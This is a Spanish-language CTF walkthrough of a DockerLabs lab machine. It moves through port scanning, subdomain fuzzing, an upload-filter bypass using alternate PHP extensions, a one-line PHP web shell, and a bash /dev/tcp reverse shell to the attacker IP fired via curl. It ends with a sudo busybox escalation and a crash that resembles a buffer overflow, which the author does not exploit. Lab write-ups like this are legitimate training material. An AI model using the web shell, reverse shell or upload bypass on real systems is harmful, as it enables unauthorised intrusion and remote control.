 ## FASE DE ENUMERACIÓN
Hacemos un escaneo de puertos y servicios de la IP 
```bash
sudo nmap -sS -sCV -Pn --min-rate 5000 -p- -vvv --open 172.17.0.2 -oN PuertosYservicios
```
```
ORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.62 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.62 (Debian)
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
MAC Address: 02:42:AC:11:00:02 (Unknown)
```
solo tenemos el puerto 80 abierto, mirammos con herramientas como whatweb etc y no veo nada interesante, me voy a la página y veo esta parte:
```
The default Debian document root is /var/www/5eEk3r
```
así pues empiezo a pensar en virtual hosting, así pues ejecuto lo siguiente:
```bash
sudo nano /etc/hosts
```
y añadp esta línea al final:
```bash
172.17.0.2      5eEk3r
```
después de realizar fuzzing de directorios y extensiones y no encontrar nada veo esta parte en el index.html:
```
The default Debian document root is /var/www/5eEk3r. You can make your own virtual hosts under /var/www.
```
así pues lo añado al etc/hosts
```bash
sudo nano /etc/hosts
```
```
172.17.0.2      5eEk3r www.5eEk3r
```
y lo abro en el navegador, dádome esto:
```
Apache/2.4.62 (Debian) Server at 5eEk3r.dl Port 80
```
así pues añadimos de nuevo en el /etc/hosts lo encontrado:
```bash
sudo nano /etc/hosts
```
```
172.17.0.2      5eEk3r www.5eEk3r 5eEk3r.dl
```
y viendo por donde van los tiros, voy a fuzzear si hay más subdomkinios:
```bash
wfuzz -c --hc=404 --hh=10705 -w /opt//SecLists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.5eek3r.dl" http://5eek3r.dl | tee dominios
```
## Explicación del comando:
1- wfuzz: Herramienta de fuzzing utilizada para buscar subdominios.

2- -c: Activar la coloración de salida en la terminal.

3- --hc=404: Ignorar respuestas con código de estado 404 (no encontrado).

4- --hh=10705: Ignorar respuestas con un tamaño de encabezado HTML de 10705 bytes.

5- -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt: Ruta al diccionario de subdominios a utilizar.

6- -H "Host: FUZZ.5eek3r.dl": Utiliza el encabezado Host con el marcador de posición FUZZ que será reemplazado por las entradas del diccionario.

7- http://5eek3r.dl: URL base a la que se realizarán las solicitudes.

8- | tee dominios: Redirige la salida tanto a la terminal como a un archivo llamado dominios.

Este comando realizará el fuzzing en busca de subdominios válidos de 5eek3r.dl utilizando el diccionario proporcionado, ignorando ciertos códigos de estado y tamaños de respuesta.
Los resultados serán guardados en el archivo dominios y también se mostrarán en la terminal.


obetengo como resultado:
```
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://5eek3r.dl/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                     
=====================================================================

000009532:   400        10 L     35 W       301 Ch      "#www"                                                                                                                                                                      
000010581:   400        10 L     35 W       301 Ch      "#mail"                                                                                                                                                                     
000042993:   200        101 L    75 W       932 Ch      "crosswords"
```
un 200 ok, pues lo introduzco en el /etc/hosts de nuevo, quedándome así:

```
172.17.0.2      5eEk3r www.5eEk3r 5eEk3r.dl crosswords.5eEk3r.dl
```

hago un fuzzing su solo encuentro index.php, miro su código fuente y al final veo esto:
```
http://crosswords.5eek3r.dl/index.php/
```
```
<! -- Al que contratamos para crear la web nos habló de algo llamado 'xss'... que será? -->
```

despues ver lograr inyectar un XSS y dar mil vueltas me doy cuenta que es un rabbithole, así pues me pongo a buscar más,
me acordé del tema de los dominios y volví a ellos.
```bash
wfuzz -c --hc=404 --hh=10705 -w /opt//SecLists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.crosswords.5eEk3r.dl" http://5eek3r.dl
```
```
000000024:   200        103 L    189 W      2906 Ch     "admin"
```
así pués lo añadimos de nuevo al /etc/hosts, nuevo domion admin.crosswords.5eEk3r.dl

## FASE DE INTRUSIÓN:

vamos a la página y vemos un panel interesante, dónde puedo subir archivos, subo un archivo en php y me dice:
```
No se permiten archivos PHP, solo HTML.
```
voy a probar con varias extensiones de php con un pequeño diccionario y burpsuite:
```
php
phps
phar
pht
phtm
phtml
pgif
shtml
php2
php3
php4
php
php6
php7
phps
phps
pht
phtm
phtml
pgif
shtml
htaccess
phar
inc
hphp
ctp
module
```
el contenido algo sencillito:
```bash
<?php system($_GET['cmd']); ?>
```
y...entraron varias xD
hago una busqueda y parece ser que aquí no se han subido los archivos, así pues empiezo a mirar en los otros subdominios
y efectivamente en http://crosswords.5ee3r.dl están alojados, al menos "shell.phar" es verdad que de todos los subidos algunos no estaban:
así pues con nuestro amigo curl vamos a intentar hacernos una reverseshell, usaremos este payload:
```
bash -c 'bash -i >& /dev/tcp/172.17.0.1/445 0>&1'
```
pero hay que encodearlo para que de menos problemas y hacemos la peticion con curl:
```bash
curl "http://crosswords.5eek3r.dl/shell.phar?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F445%200%3E%261%27"
```
y ponerse a la escucha en el 445:
```bash
sudo nc -nvlp 445
```
Por fin estamos dentro.

## ESCALADA DE PRIVILEGIOS


Lo primero tratamiento de la TTY:
```bash
export TERM=xterm
export SHELL=bash
script /dev/null -c bash 
^Z
stty raw -echo; fg
reset xterm
stty rows 51 columns 237
```
primero miro si estoy en algún grupo con priviegios y nada, luego las variables de entorno y nada, pruebo:
```bash
sudo -l
```
```
User www-data may run the following commands on dockerlabs:
    (astu : astu) NOPASSWD: /usr/bin/busybox
```
miro en :
```bash
https://gtfobins.github.io/gtfobins/busybox/#sudo
```
información sobre el binario y ejecutando esto deberia escalar al usuario astu:
```bash
sudo -u astu /usr/bin/busybox sh
```

Ya somos astu, volvemos a mirar con "id" si estamos en algun grupo privilegiado, no es así, variable de entorno,
nada, sudo -l no tenemos credenciales, así pues toca mirar que podemos encontrar.
vamos al home de astu y hay una carpeta con un binario.
lo ejecutamos :
```bash
./bs64
```
Ingrese el texto: sadasd
c2FYXN
```
pues vamos a probar a ver si se trata de un bof:
```
./bs64
Ingrese el texto: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
YWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYW=
Segmentation fault
```
Segmentation fault, se trata de un bof.

y hasta aquí he llegado porque no se hacer bof xD... tendré que ponerme a ello en un futuro.

